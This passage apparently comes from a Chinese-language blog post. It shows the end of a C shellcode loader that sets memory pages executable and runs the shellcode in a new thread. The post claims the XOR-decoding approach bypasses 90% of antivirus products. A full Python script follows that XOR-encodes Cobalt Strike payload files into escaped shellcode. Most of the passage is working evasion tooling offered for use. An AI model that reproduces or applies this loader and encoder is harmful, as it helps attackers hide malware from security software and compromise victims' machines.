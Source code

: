 ```c
		VirtualProtect(pCodeSpace, dwCodeLength, PAGE_EXECUTE, &dwOldProtect);
		CODE coder = (CODE)pCodeSpace;
		HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)coder, NULL, 0, NULL);
		WaitForSingleObject(hThread, INFINITE);
	}

	return;
}

```

这里采用了异或解码shellcode、虚拟内存页属性调整、创建线程的方式执行shellcode，绕过90%的杀软..

> 创建线程的好处就是，可以调用WaitForSingleObject来使得shellcode执行完毕进程才退出。

好几次调试的时候，进程执行完毕了shellcode还没运行，使用WaitForSingleObject就解决了这个问题～


为此为还写了一个异或脚本：

```python
import sys
from argparse import ArgumentParser, FileType

def process_bin(num, src_fp, dst_fp):
    shellcode = ''
    shellcode_size = 0
    try:
        while True:
            code = src_fp.read(1)
            if code == '':
                break
            base10 = ord(code) ^ num
            code_hex = hex(base10)
            code_hex = code_hex.replace('0x','')
            if(len(code_hex) == 1):
                code_hex = '0' + code_hex
            shellcode += '\\x' + code_hex
            shellcode_size += 1
        src_fp.close()
        dst_fp.write(shellcode)
        dst_fp.close()
        return shellcode_size
    except Exception as e:
        sys.stderr.writelines(str(e))

def main():
    parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
    parser.add_argument('-v','--version',nargs='?')
    parser.add_argument('-s','--src',help=u'source bin file',type=FileType('rb'), required=True)
    parser.add_argument('-d','--dst',help=u'destination shellcode file',type=FileType('w+'),required=True)
    parser.add_argument('-n','--num',help=u'Confused number',type=int, default=90)
    args = parser.parse_args()
    shellcode_size = process_bin(args.num, args.src, args.dst)
    sys.stdout.writelines("[+]Shellcode Size : {} \n".format(shellcode_size))

if __name__ == "__main__":
    main()
```
